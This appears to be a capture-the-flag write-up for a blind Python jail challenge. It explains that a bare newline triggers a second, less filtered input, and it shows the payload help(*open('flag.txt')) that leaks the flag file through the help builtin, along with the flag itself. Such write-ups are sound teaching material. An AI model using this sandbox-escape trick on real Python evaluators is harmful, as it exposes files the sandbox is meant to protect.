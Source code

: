 # unnecessary
![challenge](challenge.png)
### Challenge:
##### pyjails are too guessy and unnecessary! so i made an even guessier one.

##### Links: [nc chal.nbctf.com 31381](nc chal.nbctf.com 31381)

### Solution:

So we have a blind pyjail, it asks for our input then outputs "guess harder" if it gets filtered, by fuzzing around i found that by sending just a newline we can trigger an error in the program and get a 2nd chance to give our input, this time however our input is pretty much unfiltered so we can send a typical payload to get the flag:

```bash
$ nc chal.nbctf.com 31381
pyjails really shouldn't be guessy, but this one is.
>>> 
invalid syntax (<string>, line 0)
i kinda feel bad, so i'll let you have another try.
>>> help(*open('flag.txt'))
No Python documentation found for 'nbctf{th15_15_4ll_th3_fr0g5_f4ul7}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.
```

Flag: ```nbctf{th15_15_4ll_th3_fr0g5_f4ul7}```